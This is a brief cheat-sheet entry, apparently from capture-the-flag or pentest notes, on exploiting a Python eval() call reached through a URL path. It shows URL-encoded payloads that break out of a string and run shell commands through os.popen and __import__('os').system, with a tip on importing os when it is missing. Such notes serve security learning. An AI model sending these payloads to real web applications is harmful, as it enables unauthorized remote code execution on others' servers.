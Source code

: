 ### Eval used?:
`/hello/"%2bos.popen('ls').read()%2b"`  
_what if there is no system module??_    We IMPORT it :D    **__import__('os').system('ls')**  
`hello/ddd"%2bstr(__import__('os').system('ls'))%2b"`
If you are grappling with erros, try t run your commands in a python terminal and see if it works
